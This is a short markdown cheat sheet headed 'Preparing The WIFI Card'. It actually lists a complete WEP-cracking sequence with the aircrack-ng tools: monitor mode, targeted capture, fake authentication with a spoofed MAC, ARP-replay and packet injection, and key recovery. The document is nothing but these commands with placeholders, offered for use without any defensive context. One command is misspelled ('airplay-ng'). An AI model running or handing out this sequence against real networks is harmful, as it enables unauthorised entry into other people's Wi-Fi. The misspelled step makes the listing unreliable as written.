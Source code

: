 # Airodump

## Preparing The WIFI Card

    modprobe -r iwl3945
    modprobe ipwraw
    airmon-ng start [device]
    airodump-ng [device]
    airodump-ng -c [channel] -w [network.out] –bssid [bssid] [device]
    aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:66 -e [essid] [device]
    airplay-ng -3 -b [bssid] -h 00:11:22:33:44:66 [device]
    aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [bssid] -h 00:11:22:33:44:66 [device]
    aircrack-ng -n 128 -b [bssid] [filename]-01.cap
